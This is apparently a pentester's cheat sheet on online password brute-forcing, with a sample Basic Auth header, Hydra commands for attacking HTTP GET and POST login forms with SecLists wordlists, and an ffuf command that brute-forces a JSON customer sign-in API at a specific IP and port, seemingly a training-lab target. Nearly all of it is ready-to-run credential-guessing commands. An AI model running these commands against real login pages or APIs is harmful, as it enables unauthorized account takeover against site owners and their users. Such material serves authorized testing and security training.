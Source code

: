 
[[Wordlists & Rules]]
[[Bruteforce en ligne]]


# #Hydra


## Basic HTTP Authentication

```http
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```

```bash
hydra -l username -P 2023-200_most_used_passwords.txt <ip> http-get <path> -s <port>
```

## HTTP POST FORM

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt <ip> -s <port> http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials" -I -f -V
```


# #FFUF


## POST REQUEST API REST

```shell
ffuf -w /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt:PASS -w customerEmails.txt:EMAIL -u http://94.237.59.63:31874/api/v1/authentication/customers/sign-in -X POST -H "Content-Type: application/json" -d '{"Email": "EMAIL", "Password": "PASS"}' -fr "Invalid Credentials" -t 100
```


